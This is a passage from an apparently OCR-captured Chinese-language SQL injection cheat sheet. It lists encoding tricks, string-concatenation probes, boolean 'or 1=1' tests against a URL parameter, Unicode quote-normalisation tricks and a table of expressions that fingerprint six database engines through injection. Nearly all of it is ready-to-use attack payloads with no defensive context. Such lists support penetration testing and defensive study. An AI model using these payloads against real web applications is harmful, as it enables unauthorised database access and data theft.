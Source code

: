 尝试多种编码

```sql
%%2727
%25%27
```

合并字符

```sql
`+HERP
'||'DERP
'+'herp
' 'DERP
'%20'HERP
'%2B'HERP
```

逻辑测试

```sql
page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false
```

奇怪字符

```sql
Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")
Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')
```

## DBMS识别

DBMS识别

```c
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```
